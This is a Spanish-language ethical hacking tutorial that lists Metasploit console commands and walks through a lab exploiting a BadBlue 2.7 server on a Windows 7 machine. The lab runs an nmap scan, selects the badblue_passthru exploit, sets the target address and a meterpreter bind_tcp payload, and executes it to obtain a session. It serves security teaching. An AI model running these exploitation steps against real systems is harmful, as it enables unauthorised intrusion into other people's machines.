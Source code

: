 A continuación se presenta un resumen de los principales comandos de la consola de Metasploit a través de _msfconsole_.

**Help:** Lista los comandos disponibles clasificados en comandos de core y de ddbb.

**Search:** Para realizar búsquedas de módulos teniendo en cuenta la gran cantidad que existen.

**Use:** Permite usar el exploit que se quiere ejecutar. Será necesario escribir la ruta hasta el exploit en cuestión.

**Info:** Proporciona información acerca del módulo que se está ejecutando.

**Show:** Muestra los módulos de un determinado tipo o todos (Payloads, Encoders, Post, Options).

**Back:** Para salirse del módulo que se está ejecutando.

**Set & Setg:** Comandos para configurar los parámetros de los módulos. Set asigna el valor al parámetro de ese determinado módulo mientras que setg lo asigna de forma global.

**Unset & Unsetg:** Usado para desasignar los valores establecidos con los comandos set y setg vistos anteriormente.

**Run:** Comando para ejecutar un módulo auxiliar.

**Exploit:** Similar a _run_, se usa para ejecutar un exploit. Si la ejecución es exitosa se establece una conexión con la máquina conocida como sesión.

**Check:** permite saber si el exploit tendrá éxito sin lanzar el script (para aquellos intrusivos).

**Sessions:** Permite interactuar con las sesiones obtenidas después de la ejecución del exploit. Funciones como -l: listar, -i: interactuar con alguna sesión, -k: terminar con una sesión.

### [](https://openwebinars.net/academia/aprende/ethical-hacking-introduccion/1724/#explotando-vulnerabilidades)EXPLOTANDO VULNERABILIDADES

El laboratorio que se va a realizar consistirá en una máquina Windows 7 con el servicio `BadBlue` en su versión 2.7, la cual tiene vulnerabilidades reconocidas.

El primero de los pasos vistos en este temario será una fase de escaneo en el que se muestren los puertos abiertos y servicios (con sus respectivas versiones) que están funcionando en la posible víctima.

```
nmap 172.16.1.129/32 -sV
```

La respuesta es que efectivamente en el puerto 80 (HTTP) está funcionando un servidor **BadBlue 2.7**. El siguiente paso será buscar si existen vulnerabilidades para dicha versión de ese servicio.

```
https://www.cvedetails.com/vulnerability-list/vendor_id-7535/Badblue.html
```

Según lo mostrado en la web existen vulnerabilidades, pero es necesario saber si están creados los exploits para dichas vulnerabilidades. Esto se puede realizar con el comando _search_ mostrado en la parte superior.

```
msfconsole
msf > search badblue
```

Con suerte están publicados. En este caso existe con una buena valoración y es un `passthru`por lo que se usará para pasar a través de él y ejecutar un payload que, por ejemplo, pueda dar una sesión en la máquina.

Se lanzará y se verán las opciones para ver cuáles hay que introducir.

```
msf > use exploit/windows/http/badblue_passthru
msf exploit(badblue_passthru) > show options
```

Los dos campos requeridos son la IP y Puerto de la víctima, donde se encuentra el servicio en cuestión. Por defecto, ya se encuentra establecido el puerto al 80, por lo que solo será necesario incluir la IP con el comando `set`.

```
msf exploit(badblue_passthru) > set RHOST 172.16.1.129
```

Teniendo preparado el exploit solo será necesario elegir el _payload_, se suele buscar obtener una sesión meterpreter que puede ser directa _(bind)_ o indirecta _(reverse)_.

```
msf exploit(badblue_passthru) > set payload windows/meterpreter/bind_tcp
```

Por último, solo faltará ejecutarlo:

```
msf exploit(badblue_passthru) > exploit
```

Se ejecuta correctamente y devuelve la sesión **meterpreter** con la que se trabajará en el siguiente tema.